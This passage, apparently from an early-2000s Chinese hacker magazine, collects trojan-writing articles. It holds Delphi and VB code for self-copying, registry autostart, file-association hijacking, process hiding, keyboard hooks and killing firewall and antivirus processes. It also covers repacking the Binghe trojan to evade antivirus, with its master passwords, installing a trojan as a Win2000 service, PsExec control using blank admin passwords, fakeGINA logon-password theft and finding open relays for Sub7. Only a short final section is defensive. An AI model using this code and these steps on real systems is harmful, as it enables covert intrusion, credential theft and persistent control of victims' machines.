    Application.CreateForm(TForm1, Form1);
    Application.Run;
  end;
end.
```

另一种方法是启动时会先通过窗口名来判定是否已经在运行，如果是，则关闭原先的再启动，“冰河”就是用这种方法。这样做的好处在于方便升级，它会自动用新版本覆盖旧版本。

方法如下：修改 dpr 项目文件

```pascal
uses
  Forms, Windows, Messages,
  Unit1 in 'Unit1.pas' {Form1};
```

为了程序能在 Windows 每次启动时自动运行，可以通过六种途径来实现。加入 Registry 单元，改写上面的窗口 Create 事件，改写后的程序如下：

```pascal
procedure TForm1.FormCreate(Sender: TObject);
const K = '\Software\Microsoft\Windows\CurrentVersion\RunServices';
var myname: string;
begin
{Write by Lovejingtao, http://Lovejingtao.126.com, Lovejingtao@21cn.com}
myname := ExtractFilename(Application.Exename); // 获得文件名
if application.Exename <> GetWindir+myname then // 如果文件不是在 Windows\System\ 那么
begin
  copyfile(pchar(application.Exename), pchar(GetWindir+myname), False); // 将自己拷贝到 Windows\System\ 下
  Winexec(pchar(GetWindir + myname), sw_hide); // 运行 Windows\System\ 下的新文件
  application.Terminate; // 退出
end;
with TRegistry.Create do
try
  RootKey := HKEY_LOCAL_MACHINE;
  OpenKey(K, TRUE);
  WriteString('sysble', application.ExeName);
finally
  free;
end;
end;

// 为了让程序用 ALT+DEL+CTRL 看不见，在 implementation 后添加声明：
function RegisterServiceProcess(dwProcessID, dwType: Integer): Integer; stdcall; external 'KERNEL32.DLL';
// 再在上面的窗口 Create 事件加上一句：
RegisterServiceProcess(GetCurrentProcessID, 1);
// 隐藏
```

## 三、关联文件

木马一般通过 txt 或 exe 文件关联来达到自我恢复，所以有很多人明明把它杀掉了，但重新启动时又会出现。下面我们来看看它们是怎样做的，以 txt 文件关联为例。

打开 Delphi，新建一个工程，在窗口的 Create 事件中写代码：

```pascal
uses Registry
procedure TForm1.FormCreate(Sender: TObject);
const Kkk = '\Software\Microsoft\Windows\CurrentVersion\RunServices';
const K = '\txtfile\shell\open\command';
var sFileName: string;
begin
****************************
with TRegistry.Create do // 写注册表，让程序跟文本文件关联
try
  RootKey := HKEY_CLASSES_ROOT;
  OpenKey(K, TRUE);
  {Write by Lovejingtao, http://lovejingtao.126.com}
  WriteString('', application.ExeName+' "%1"');
  {Write by Lovejingtao, lovejingtao@21cn.com}
finally
  free;
end;
//************************
with TRegistry.Create do // 写注册表，每次启动时自动运行
try
  RootKey:= HKEY_LOCAL_MACHINE;
  OpenKey(Kkk,TRUE);
  WriteString('myTray', application.ExeName);
finally
  free;
end;
//************************
if FileExists(pchar(Getwindir+'Sysplay.exe'))=false then // 如果文件已经删除
begin
  copyfile; // 自定义拷贝资源文件过程
  winexec(pchar(Getwindir+'Sysplay.exe'),sw_hide);
end;
//************************
if ParamCount>0 then begin // 有执行参数传入
  sFileName:=ParamStr(1); // 取得参数内容
  winexec(pchar('Notepad.exe '+sFileName),sw_show); // 用记事本打开
  // winexec(pchar(sFileName),sw_show);
end;
//************************
application.Terminate; // 退出
end;
```

如果要改为与 exe 文件关联，只要把“const K='txtfile\shell\open\command';”改为“const K='exefile\shell\open\command';”，把“winexec(pchar('Notepad.exe '+sFileName),sw_show);”改为“winexec(pchar(sFileName),sw_show);”即可。当然，还要加入是否退出 Windows 而运行的 Rundll32.dll，否则会因为关联 exe 文件而退不出 Windows。

因此，于“删除文件关联木马”时，还要改掉它的保护功能，不能让它恢复。如果是关联了文本文件，先改注册表让它不能自动运行，重启后不要打开文本文件，立刻赶到其安装目录把它删除。如果是关联了 exe 文件，那么可回到 DOS 下删除。

切记：一定要把木马文件同时删除，否则你重启后会发现文件又恢复了。


苗得雨

一提到“冰河”你会想到什么？一个时期的“河流山川”？木马？阴险？欺骗？还是狡诈？无论在你脑中浮现的是什么样的名词，在互联网上的“冰河”永远都有一个不可替代的身份：“特洛伊木马”。木马是黑客，特别是菜鸟黑客在互联网上使用最多的工具。相信很多人都有这样的经历，在某一天上网的时候，突然你发现，你的 QQ 无法登录了，你的邮箱也无情地提示：密码错误。所有一切你熟悉的东西都拒绝你的接近，此时计算机还会火上添油地突然关机或者重新启动。接下来，如果你是拨号上网，很可能你会不幸接到一个电话，电话里面那个声音很像 FBI 特工的人会用一种阴冷的语气告诉你，你的电脑已经属于他控制了，如果想要回你的一切，那么就请照他的吩咐做。这一切的一切都是木马给你造成的困难，当然作为国内的那些菜鸟黑客，他们最钟爱的就是“冰河”这款木马后门软件。

冰河从 1.2 版本正式走近我们，之后几经变化升级，现在可以用种类繁多这个词来形容。但是大多数的知情者都明白，冰河的最初创始者——程序员黄鑫，早在编写完成 2.2 版本冰河后就没有再给冰河进行升级，或者推出新版本的冰河。那么那些各种各样的新版本冰河都是怎么产生的呢？为了给大家揭开这个谜底，下面我就带领大家揭开冰河的神秘面纱，步入被无数次封装的冰河生产线，让大家一起跟我了解制造冰河的过程！

# 一、冰河生产线

在生产冰河的过程中，我们首先要有一个原始版本，也就是 2.2 版本的冰河，当然在生产流程中最重要的还是制造冰河的工具。这些工具并不神秘，下面我就为大家详细地介绍一下。

- 1. UltraEdit32

了解汉化的朋友都很清楚，UltraEdit32 是一款强大的十六进制编辑器，它不仅可以用十六进制方式编辑修改文件，还可以方便地对 C 语言、PHP、CGI、ASP 等网络语言进行编写。当然它最大的特点是可以打开很多类型的文件，并直接找到程序中文本型隐藏的秘密。同类型的软件还有 WinHex 等，但效果都不如 UltraEdit32。

- 2. ExeScope

使用 ExeScope 最多的人也是汉化高手，ExeScope 是用来修改软件资源的较常用的工具，它强大的地方在于可以在有资源文件的情况下分析出显示不同的文件信息与内容，而且它可以对可执行文件进行重写，这其中包括菜单、对话框、字串表等等。

- 3. W32Dasm 9

鼎鼎大名的 W32Dasm 可以对程序进行反汇编操作，而且对 WinAPI 有良好的支持，反汇编出的代码可读性非常强。它可以记录下程序静态代码，是 SoftICE 的最好补充。

- 4. Resource Hacker 3.4.0

与 ExeScope 很相似的工具，但是我感觉初级用户使用它会更加方便。它修改软件资源的方式要更加傻瓜化一些。（推荐使用）

- 5. UPXShell

UPXShell 作为一款压缩软件，效果是非常易见的。它有非常出色的压缩性能，跨平台性能也很优秀。由于 UPXShell 压缩后仍然是 EXE 可执行文件，所以很多黑客和用户看中其不改变原件、只改变大小的特点，来压缩病毒与黑客软件，这其中当然就包括大名鼎鼎的冰河。而且它会给压缩的软件加一层壳，这样避免了很多杀毒软件将其查出来，更好地迷惑受害者。

- 6. ASPack

ASPack 与 UPX 很相像，也是压缩软件。记得在协助黄鑫做 2.2 版冰河测试的时候，他曾经推荐我使用这个软件进行压缩后再使用，所以想必有些版本冰河是使用这款软件进行压缩的。

# 牧马记

通过 ASPack 压缩后，我们可以相应地使用 UnASPack 来进行解压缩，这样我们就可以看到压缩前的效果了。ASPack 的压缩原理与 UPX 相同。

# 二、制造流程

以下就是如何改造冰河的整个流程。通过配合上面的工具，我们就可以把冰河完全改造成我们所喜欢的样式。

- **流程一**：首先在网上下载一个冰河（最好是没有改造过的 2.2 版本），如果是 ZIP 或者 RAR 的格式，首先需要将冰河解压缩，之后找到目录里面的 G_Server.exe 文件，然后试着用 UPX 解压缩，如果不成功再用 ASPack 解压缩。解压缩成功后可以看到冰河的详细资源，这个过程也叫脱壳。
- **流程二**：在解压缩后，这时我们找出先前准备好的 Resource Hacker，用它打开已经经过脱壳处理的冰河服务端 G_Server.exe，这个时候我们就可以在 Resource Hacker 中看到冰河的详细资源，如版本信息、图标等等。我们这个时候就可以将这些资源修改成为我们所希望的。
- **流程三**：使用 UltraEdit32 打开 G_Server.exe，探寻冰河的万能密码。在使用 UltraEdit32 寻找万能密码之前，我们必须了解原冰河版本的万能密码，冰河各个版本的密码一般为：

> 2.2版：Can you speak Chinese?  
> 2.2版：05181977  
> 2.2杀手版：05181977  
> 2.2杀手专版：dzq20000  
> 3.0版：yzlzero!  
> 3.0版：yzlzero.51.net  
> 3.0版：yzlzero!  
> 3.1-netbug版密码：123456!@  
> 3.3版：******?（*号代表空格）  
> 4.0版：05181977

通过上述的这些资料，我们在 UltraEdit32 的“查找”中输入需要查找的 ASCII 特征码，也就是冰河的万能密码，比如“Can you speak Chinese?”，查找到后再修改成我们自己喜欢的密码。随后可以继续使用“查找”功能搜索“冰河”“木马”“bingle”等信息，特别需要强调的是 2.2 的某些版本中包含有一段许美静演唱的《铁窗》这首歌的歌词，查找到这些信息后，我们可以修改，也可以删除，这样一个冰河就完全修改完了。

完成后我们再用 ASPack 或者 UPX 等对修改完成的 G_Server.exe 进行压缩，此时一个我们改造后的冰河就制造成功了，而且一般的杀毒软件不会扫描出来。

> 虽然我们已经对冰河不是“裸体”状态进行了发现，而且进行了一些个性化的改装，但是这并没有完全达到制造一个我们自己的冰河的目的。可以说我们的工作刚刚完成一半，接下来我们还需对冰河进行彻底的伪装。

# 三、放到强化线

在冰河强化生产线上，我们需要的工具并不是很多，只要把 Delphi 和著名的木马“黑洞”准备好就可以了。

在现有的冰河中，冰河 5.5LFP 版就是一个利用 SMC（self modifying code）技术在冰河中增加了补丁代码，扩展了冰河功能的强化改造版。SMC 技术可以让木马扫描 EXE 可执行文件，并在运行时释放木马，除此之外，利用 SMC 技术还可以做到如著名的木马“黑洞2001”一样的功能，消灭杀毒软件、防火墙的进程。

> SMC 技术，基本原理就是找一段原来的程序所没有用到的“空白区域”，同时这些“空白区域”在程序映射入内存后不能被覆盖，然后在这些“空白区域”加入你自己的代码。这段代码就是我们常说的补丁程序。当程序在内存中解压完毕后，使得程序跳到真正入口点前，率先跳到补丁代码处执行新程序，然后再返回到原始入口处继续正常工作。现在有很多程序用到此项技术，最典型的是很多壳保护上面的加强程序。

下面我们就进入第一个强化流程，分析“黑洞2001”。黑洞能够杀死防火墙进程的功能表面上看起来很神气，其实不过是利用了一个 API 函数 PostMessage（窗口句柄，WM_QUIT，0，0）实现了这项功能。

> 黑洞木马杀毒程序、防火墙程序的原理非常简单：模拟控制功能。它的有效杀灭对象为火墙、神州、天网，很快就会上手的。

众所周知，在 Windows 操作系统中，每个可执行文件在运行时不仅有进程 ID，还存在一个窗口名。一般来说，如果一个程序运行时在任务栏有个图标，你把鼠标移动到那里，出现的提示就是该程序的窗口名。即使程序是隐藏运行，它的窗口名还是存在的，只不过你看不见而已。我们只要找到这个程序的窗口句柄，然后发送一个消息“WM_QUIT”给它，就会把它无条件关闭。

那么如何找到那个叫“句柄”的东西呢？Windows 提供了一个 API 函数 FindWindow 来通过窗口名返回窗口句柄。比如说你想查找一个窗口名为“目标杀死程序”的句柄，则可以用以下语句：

```delphi
Var
  ExeHandle: THandle;
Begin
  ExeHandle := FindWindow(Nil, '目标杀死程序');
  if ExeHandle <> 0 then
    ShowMessage('找到该程序，句柄为' + IntToStr(ExeHandle));
end;
```

而现在我们需要做的仅仅是看看系统在运行中所有窗口的名称，然后和我们需要关闭的程序作一下比较，如果条件符合的马上就可以消灭掉它。在找当前系统运行的所有窗口名称时，可以通过递归实现，下面我们用 Delphi 写这一段程序：

```delphi
Function My_RefreshForm(MyStringList: TStringList): Boolean;
Var
  hCurrentWindow: HWnd;
  szText: array[0..254] of Char;
begin
  MyStringList.Clear;
  hCurrentWindow := GetWindow(Application.Handle, GW_HWNDFIRST);
  while hCurrentWindow <> 0 do
  begin
    if GetWindowText(hCurrentWindow, @szText, 255) > 0 then
      MyStringList.Add(StrPas(@szText));
    hCurrentWindow := GetWindow(hCurrentWindow, GW_HWNDFNEXT);
  end;
  Result := True;
end;
```

写完了上面这个程序后我们来调用这段代码。然后再运行 Delphi，新建一个工程，放上一个 ListBox 控件和一个按钮 Button1，接着在 OnClick 事件中添加代码：

```delphi
procedure TForm1.Button1Click(Sender: TObject);
var
  FormStrings: TStringList;
begin
  FormStrings := TStringList.Create;
  My_RefreshForm(FormStrings);
  ListBox1.Items := FormStrings;
  FormStrings.Free;
end;
```

```delphi
begin
  ExeHandle := FindWindow(nil, PChar(S));
  if ExeHandle <> 0 then
    PostMessage(ExeHandle, WM_QUIT, 0, 0);
end;
```

运行这个程序，点击 Button1 就会在 ListBox1 框架中列出系统现在正在运行的所有后台程序窗口名。当然，这个时候你也会发现一些操作系统本身运行的程序，这些程序可是你在 Windows 任务列表中看不到的。有了上面这两段代码，我们马上就可以将其杀死了。下面我们再写这段代码：

```delphi
Procedure My_KillForm(S: String);
Var
  ExeHandle: THandle;
begin
  ExeHandle := FindWindow(nil, PChar(S));
  if ExeHandle <> 0 then
    PostMessage(ExeHandle, WM_QUIT, 0, 0);
end;
```

我们在程序中要杀死那个“目标杀死程序”，那么可以先用 My_RefreshForm 函数列出所有窗口名称，然后一个一个和“目标杀死程序”这个窗口名作比较，如果条件符合就使用 My_KillForm（“目标杀死程序”）把它干掉了。

好了，就讲到这里。通过上面所说的方法，我们就可以让冰河也实现消灭程序进程的功能，不过用来对付防火墙和杀毒软件可能会有些不方便。但是如果将上面的代码用汇编语言编写，然后再用 SMC 技术将这段代码加入到冰河中，就可以扩展冰河的功能并有效地逃避杀毒软件。不过话说回来，这样做的后果可能是软件代码长度的增加，会使服务端程序变大，从而使得木马的隐蔽性不够好。并且，这要求修改者对汇编语言掌握得很熟练，而且在修改过程中打起补丁来也很麻烦，改造时经常死机也是家常便饭。呵呵，不过我听说已经有人这样去做了，所以相信不久的将来，大家极有可能会看到具有杀进程功能的冰河出现在某个网站的“下载”中。

## Win2000 之中的最佳方案


- 喜欢玩木马的朋友都知道，木马程序一般启动的方法不外乎以下几种：
  1. 启动组
  2. autoexec.bat
  3. 注册表
  4. win.ini
  5. system.ini
  6. winstart.bat

- 但是由于现在网络上的木马已经泛滥，大多数的电脑用户都提高了警惕，对于这些容易藏木马的地方都会时常检查，使得木马很难再生存下去。不过对于功能强大的 Win2000，木马还是有生存空间的，下面我就教大家如何把木马程序注册为系统服务，从而增强其隐蔽性！

## 一、原理

在 Win2000 中，只要是“启动类型”设置为“自动”的服务，启动时系统就会自动运行，所以我们只要把种在对方系统中的木马程序添加到系统服务中，并将“启动类型”设置为“自动”，就可以使对方每次启动系统时都自动运行指定的木马程序了。

## 二、实现方法

首先我们需要准备以下工具：instsrv.exe、srvany.exe、reg.exe、srv.reg（编排好的注册表文件，具体内容下面会提到！）、sc.exe、配置好的木马（这里我将它取名为 Server.exe）。

准备好了以上工具，我们就可以开始了。首先 Telnet 上对方主机，将上述工具上传到其系统的 system32 目录下，接着输入命令（如图1所示）：

```bash
instsrv Xservice c:\winnt\system32\srvany.exe
```


这样我们就在系统服务中注册了一项名为“Xservice”的服务。接下来在注册表 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services] 主键下找到刚才添加的“Xservice”，并新建一个名为“Parameters”的项，在 Parameters 下新建“字符串值”取名为“Application”，值就定为 c:\winnt\system32\Server.exe。

为了方便操作，我们可以预先编排一个注册表文件，然后上传到对方主机中，再用 reg.exe 导入就可以了。该注册表文件内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Xservice\Parameters]
"Application"="C:\\winnt\\system32\\server.exe"
```

然后运行 reg.exe import srv.reg，这样就将“srv.reg”导入了注册表，如图2所示。


OK，木马程序就变成系统服务了，最后还需要用 sc.exe 将 Xservice 配置为 auto（自动），这样，对方每次启动系统时就会自动运行指定的木马程序了！命令如下（如图3所示）：

```bash
sc config Xservice start= auto
```


如果不确定服务是否已经设置为“自动”，还可以用 sc 命令再查看一下，命令如下（如图4所示）：

```bash
sc qc Xservice
```


好了，现在种在对方主机中的木马程序已经正式升级为系统服务了。本文中所使用的技术很简单，使用的工具大多可以在 Win2000 Resource Kit 中找到，建议新手朋友自己动手操作一下，reg.exe 和 sc.exe 都是很有用的工具，大家不妨研究一下。

# 轻松实现远程控制

说到远程控制，最普通的方法就是运用木马程序。有没有更好的远程控制方法呢？其实，如果对方主机开了 IPC$ 默认共享，并且你已经得到了管理员账号及口令，那我们就可以用 PsExec 直接远程控制对方，而无需再用什么木马了！

PsExec 是一个远程执行命令，能够做到脚本和批处理，不使用 telnet、ssh、r 系列协议，允许用服务器上任何用户身份执行命令的工具。只要你可以和远程主机建立管理员权限的 IPC$ 连接，就可以用 PsExec 在远程执行命令，而无需再上传木马的服务端程序或开启对方主机的 telnet 服务。对于远程控制一台主机，使用 PsExec 可以说是最方便的方法之一了！

下载地址：http://www.sysinternals.com/files/psexec.zip

PsExec 命令格式如下：

```bash
psexec \\computer [-u username [-p password]] cmd [arguments]
```

- `<IP地址>`
- `-u 用户名`
- `-p 密码`
- `<cmd 的路径>`

例如：

```bash
psexec 192.168.0.1 -u administrator -p password c:\winnt\system32\cmd.exe
```

首先我们要与对方主机建立一个管理员权限的 IPC$ 连接：net use \\***.***.***.***\ipc$ "" /user:administrator，如图1所示。


接着我们就可以用 PsExec 远程执行如下命令：

```bash
psexec ***.***.***.*** -u administrator -p "" c:\winnt\system32\cmd.exe
```

这里密码为空可以用 `""` 表示，命令中的 c:\winnt\system32\cmd.exe 是指在远程主机的 cmd.exe 绝对路径，双方可能把系统装在 D 盘，那我们就需要改一下，不然会出现找不到指定程序的提示，如图2所示。


就这么简单，你已经能远程控制对方的机器了，下面是一些注意事项：

- 如果客户端是 Win2000 的机器（就是发送运行 psexec 的机器），那么如果服务器是 Win2000，服务器和客户端的所有数据传输都是通过 445 端口进行。如果服务器非 Win2000，则需要 135 和 139 端口。
- 进程在服务器上运行后，为后台执行，当前的控制台将看不到这个程序在运行，这个功能类似于 Unix 下的“已执行”命令，但又可以使这个连接管理器得到这个在运行的程序。
- 客户端的输入可以直接传送到服务器的程序中，但是客户端看不到回显。
- 服务器端的执行结果和回显都会显示到客户端上。
- 请不要把这个程序用于其它一切不正当途径。

## 编制木马隐藏 3 个重要技术

空传

最近看到很多文章都在介绍 VB6 利用 Winsock 实现木马，又被网络实名这个以为是木马的东西老删不掉所困扰。下面我把自己编制的一段常用木马程序与大家共享，希望彼此都有所提高。

## 一、实现木马的隐藏

### 1、问题

在 Win98 下，我们知道只要按住“CTRL+Alt+DEL”弹出“关闭程序”对话框，你运行的程序（进程）就显露无遗。如何实现程序的隐藏，使之不出现在“关闭程序”对话框中？

### 2、原理

因为 Win98 有两类进程——应用进程和服务进程，而“关闭程序”对话框显示应用进程，不显示服务进程。如何才能把自己的程序（运行时称为进程）编成服务进程呢？需要通过 Windows 的 API 函数 RegisterServiceProcess 注册服务进程，使程序不出现在“关闭程序”对话框中（对 Win2000 以后版本是无效的，它的进程管理器显示了所有进程）。

### 3、步骤

新建一工程，在 Form1 中添加两按钮控件（显示程序 cmdShow 和隐藏程序 cmdHide），添加关键代码：

```vb
Private Declare Function GetCurrentProcessId Lib "kernel32" () As Long    '取得当前进程ID

Private Declare Function RegisterServiceProcess Lib "kernel32" (ByVal dwProcessID As Long, ByVal dwType As Long) As Long    'dwProcessID 需隐藏的进程ID，dwType 隐藏还是显示
```

```vb
Private Sub Command1_Click()    '隐藏进程
    pid = GetCurrentProcessId()
    RegisterServiceProcess pid, RSP_SIMPLE_SERVICE
End Sub

Private Sub Command2_Click()    '显示进程
    pid = GetCurrentProcessId()
    RegisterServiceProcess pid, RSP_UNREGISTER_SERVICE
End Sub
```

另外有一种简单的方法，只需新建一工程，在 Form1 中添加如下代码：

```vb
Private Sub Form_Load()
    App.TaskVisible = False
End Sub
```

但此方法在 VB 开发环境下是无效的，当然我们做好的东西也不是在 VB 下用的。

## 二、截获系统键盘消息

### 1、问题

如何才能截获“CTRL+Alt+DEL”按键消息，那样就能截获 WIN98 的操作啊！遗憾这种方法不行，不过此段代码能截获一般的键盘消息，包括很多非系统占用组合按键消息。

### 2、原理

我们通过函数 SetWindowsHookEx 把自己键盘消息钩子函数挂接到系统消息处理链上，把自己想要的键盘信息截获，把不想要的消息继续传给下一个消息处理函数。本例通过按住组合键“Ctrl+Shift+Alt”，显示隐藏的程序主界面，结合例 1 中的代码就能做成一个完整的呼叫隐藏程序。

`SetWindowsHookEx` 的函数原型为：

```text
SetWindowsHookEx( int idHook, HOOKPROC lpfn, HINSTANCE hMod, DWORD dwThreadId )
```

- `idHook`：钩子类型，本例用了一个截获键盘、鼠标消息的钩子
- `lpfn`：钩子函数，常放在一个 DLL 文件
- `hMod`：DLL 句柄，上面 DLL 文件的句柄，本例为当前进程
- `dwThreadId`：线程 ID，为 0 是截获系统所有线程的消息

### 3、步骤

在例 1 工程中，添加一模块 Module1，在其中添加如下主要代码（API 定义略）：

```vb
Sub EnableHook()
    hHook = SetWindowsHookEx(0, AddressOf HookProc, App.hInstance, 0)    '挂接钩子函数
End Sub

Sub FreeHook()
    Dim ret As Long
    ret = UnhookWindowsHookEx(hHook)    '释放钩子函数
End Sub
```

以下为自己的钩子消息处理函数：

```vb
Function HookProc(ByVal code As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
    Dim msg As Long, i As Integer
    If code <> HC_ACTION Then
        HookProc = CallNextHookEx(hHook, code, wParam, lParam)    '将消息传递到消息链的下一个接受单元
        Exit Function
    End If
    CopyMemory msg, lParam, LenB(msg)
    If msg.message = WM_KEYDOWN Then
        If GetAsyncKeyState(vbKeyControl) And GetAsyncKeyState(vbKeyShift) And GetAsyncKeyState(vbKeyMenu) Then
            Form1.Visible = True
        End If
    End If
    HookProc = CallNextHookEx(hHook, code, wParam, lParam)
End Function
```

# 收马记

在 Form1 上添加一按钮（隐藏主界面 cmdHideFace），代码如下：

```vb
Private Sub cmdHideFace_Click()
    Form1.Visible = False
End Sub

Private Sub Form_Load()
    Call EnableHook
End Sub

Private Sub Form_Unload(Cancel As Integer)
    Call FreeHook
End Sub
```

```vb
Do
    PL(mProcessList).EXEName = mTrim(PE32.szExeFile)
    PL(mProcessList).ProcessId = PE32.th32ProcessID
    PL(mProcessList).cntThreads = PE32.cntThreads
    mProcessList = mProcessList + 1
Loop While Process32Next(hProcessSnap, PE32)
```

查找下一个进程。

```vb
End If
CloseHandle (hProcessSnap)
End Function
```

在 Form1 窗体上添加两按钮（用于显示所有进程 CmdShowProcess 和中止选定进程 CmdStopProcess），和一个 ListBox 控件 List1，其中关键代码如下：

```vb
Private Sub CmdShowProcess_Click()
    ShowProcess
End Sub

Private Sub CmdStopProcess_Click()
    ...
    phnd = OpenProcess(PROCESS_ALL_ACCESS, 0, PL(List1.ListIndex).ProcessId)
    ...
    Call TerminateProcess(phnd, 0)
    Call CloseHandle(phnd)
    ...
End Sub

Sub ShowProcess()
    List1.Clear
    x = mProcessList(PL)
End Sub
```

以上程序在 Win98+VB6 环境下调试通过。最后奉劝经常上网吧或者使用别人机器上网的朋友，最好先看看自己的机器是不是运行了不安的程序，正所谓小心驶得万年船。

## 三、获取进程的显示与中止

消灭一切隐藏的陌生进程（包括木马、网络实名的客户端等）

- 1. **问题**  
  既然 Win98 系统没有提供显示服务进程的工具，如何自己编制一个，同时能中止该进程呢？

- 2. **原理**  
  系统提供了 ToolHelp32 函数族，其中 CreateToolhelp32Snapshot 创建系统中运行的进程快照，Process32First 与 Process32Next 能获得所有快照中的进程，同时使用 OpenProcess 打开进程，然后 TerminateProcess 结束进程。

- 3. **步骤**  
  在上面工程中添加一模块 module2，其中添加如下关键代码：

```vb
' 显示系统进程
Public Function mProcessList(PL() As ProcessList) As Long
    Dim hProcessSnap As Long
    Dim PE32 As PROCESSENTRY32
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
    mProcessList = 0
    PE32.dwSize = Len(PE32)
    If Process32First(hProcessSnap, PE32) Then
```

## WIN2K 登录木马的使用方法及资源泄露

也许你通过各种方法得到一台 WIN2K 机器的管理权限，你想要你的行为不被管理员发现，或者需要在这台机器所在的网络中扩大影响，你需要收集登录到这个机器上的用户密码达到你的目的，但你不可能用普通的木马来记录他们的登录密码，WHY？那么我们来复习一下 WIN2K 用户登录的机制。

在本地登录到 WIN2K 系统时，通过后台的 winlogon.exe、Lsass 执行验证检查的 DLL 以及 SAM 或者活动目录来相互作用。用户登录时的过程相当繁琐，好在 WIN2K 也是 WINNT4 这个 C2 级安全的系统的进化版，如果你对 WIN2K 的详细登录情况很有兴趣，不妨买一本微软出的《Windows 2000 内幕揭秘》看看，这里只谈一个相关的内容了。

GINA（Graphical Identification and Authorization，图形鉴定及授权）是用户和 WIN2K 系统间的证人，确切地说，它是一个绝对公正的第三方，并不属于微软！微软提供了一个默认的 msgina（在系统中的存在形式是 msgina.dll），它展示的就是 WIN2K 默认的登录窗体。考虑到公正和未来应用扩展问题，管理员可以将这个默认 GINA 替换为自己的 GINA。比如可以制作一个生物识别的 GINA，基于人的指纹、视网膜甚至声音来登录验证。

为了能收集登录到 WIN2K 的用户密码，很显然我们只要做点手脚，换掉默认的 GINA 就可以了，当然登录界面就不要改变了，只要在这个 GINA 木马中加入键盘记录的能力并将记录到的密码保存为文件就行。具体的操作方法如下（以最早的木马 GINA-fakeGINA 为例）：

- 1. 将 fakegina.dll 复制到远程 WIN2K 主机 system32 目录下；
- 2. 在其注册表中加入 `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL=fakegina.dll` 这个键值，含义就是在 WIN2K 用户登录时加载我们的木马 GINA——fakegina.dll，以取代原来的 msgina.dll；
- 3. 想办法重启这台机器，反正你有管理权限，可以用 reboot.exe、shutdown.exe 等工具，也可以对其拒绝服务攻击使其重启，这样做的目的就是让所有需要登录这个机器上的用户使用上我们换的木马 GINA，这样就可在他们感觉不到任何异常的情况下得到其密码；
- 4. 等待系统重启后，我们再去它的 system32 目录下查看，发现多出来一个 passlist.txt，这里面记录的就是刚刚登录的用户名和明文密码，之后我们就可以利用这些密码方便地进一步渗透入该 WIN2K 主机所在的内网中。

> 如果觉得 fakegina 这个 WIN2K 登录口令记录木马的隐藏性还不够好，有编程基础的朋友可以编译 fakegina.dll 使之个性化，甚至编写一个更强的 WIN2K 登录口令记录木马。

# 如何寻找提供转信功能的服务器

Sagi（射手）

提起带“洛伊木马”程序，不管是菜鸟、老鸟，还是新手、高手，都曾经用过，像冰河、广外女生、netspy、BO、Sub7 等等。我刚接触网络安全技术的时候也是经常使用这些带“洛伊木马”程序，不过现在已经不大使用了。

我们在设置带“洛伊木马”程序的服务端时，有时会碰到这么一项：让我们输入一台服务器的 IP 以及自己的电子信箱。在 BQ、Sub7、Netbull、冰河中都有这个设置，事实上这个服务器不是一般的服务器，而是一台能够提供转信功能的服务器。有的朋友会说：“我没有设置这个不是也照样控制对方的电脑吗？”是的，利用带“洛伊木马”自带的搜索功能在 Internet 上随机搜索，幸运的话你确实会找到一些种植了木马的电脑，或者是中了木马的电脑是一台服务器。这些个人电脑或服务器的 IP 地址是不变的，但是对于那些使用拨号方式、每次上网 IP 都是不固定的个人电脑用户呢？这项设置就成了长久控制的关键。

要想设置成功就必须找到一台能够提供转信功能的服务器，不过大多数服务器为了不收到垃圾邮件以及其他一些安全问题，是不会提供转信功能的。下面向各位介绍一下我使用的方法。

> 经验哦

需要的工具：一个是端口扫描程序，我用的是 netview；另一个就是大名鼎鼎的 Sub7，这个国外老牌的带“洛伊木马”程序，版本 2.1。我的电脑中一直保存着 Sub7 2.1 的一个最主要的原因就是它可以测试服务器是否具有转信功能。

先打开 netview，选择“PortScan”，端口选择“25 smtp”，“timeout”可以定为“500”，输入一个 IP 段让它自动寻找，不一会儿就找到了些开放 25 端口的服务器，如图 1 所示。


接下来启动 Sub7 的 Editserver 程序，对服务端进行设置，如图 2 所示。


在“notify to:”中输入自己的电子信箱，在下面的“server”中输入刚才找到的服务器的 IP，后面的用户名和密码填上自己信箱的用户名，点击左面的“test”，Sub7 就会自动测试了，如图 3、图 4 所示。


图4

图5

对这两台服务器的测试都失败了，失败的原因有可能是对方根本就不提供这项服务，也有可能被防火墙拦截了或是别的原因。不过，还是让我找到了一台，如图 5 所示。

经过再一次的设置，Sub7 成功地通过那台服务器发送了一封测试电子邮件到了我的电子信箱。至此，我们已经成功地找到了一台提供特定功能的服务器了，喜爱木马的朋友赶快试吧！

# 查杀木马的通用解法

木马，一般而言就是一个网络客户/服务器程序。现在黑客当道的时候，木马被利用得越来越多，在论坛上老是看到有人问如何卸载木马的问题，作为“一只菜鸟”，决定写出点心得给菜鸟同志看看，共杀木马。

## 一、木马的运行原理

传统的木马一般是 C/S 模式软件，网络客户/服务模式的原理是一台主机提供服务（服务器），另一台主机接受服务（客户机）。作为服务器的主机一般会打开一个默认的端口并进行监听（Listen），如果有客户机向服务器的这一端口提出连接请求（Connect Request），服务器上的相应程序就会自动运行，来应答客户机的请求，这个程序我们称为服务端。传统的木马一般都开了一个端口等待连接，但这样不够隐蔽，我们可以用 Windows 自带的 netstat 命令来查看，在 CMD 下输入 netstat -an，我们就可以看到下面形式的列表：

| Proto | Local Address | Foreign Address | State |
|---|---|---|---|
| TCP | 0.0.0.0:25 | 0.0.0.0:0 | LISTENING |
| TCP | 0.0.0.0:135 | 0.0.0.0:0 | LISTENING |
| TCP | 0.0.0.0:443 | 0.0.0.0:0 | LISTENING |
| TCP | 192.168.0.11:1033 | 202.107.217.200:6667 | ESTABLISHED |

要是你对端口有一定的认识，一般能找出木马的蛛丝马迹来。而且，国外很早以前就出了个 fport 工具，更是我们干掉端口木马的“良药”。其实，国内现在也出现了很多同类的工具，网安卫士出产的 DBP2P 软件（如图 1 所示），可以支持 Win9X、WinNT、Win2K 和 WinXP 的端口进程查看，它能列出系统中所有 TCP、UDP 端口以及相应协议、进程的 ID、进程名、状态、程序路径等等，我们通过它可以看到相应的端口与进程的关系。

一般情况下，我们可以根据常用系统进程列表找出可疑进程，在任务管理器中结束木马。这样，我们跨出了手工杀木马的第一步。


图1

## 二、木马对注册表的利用

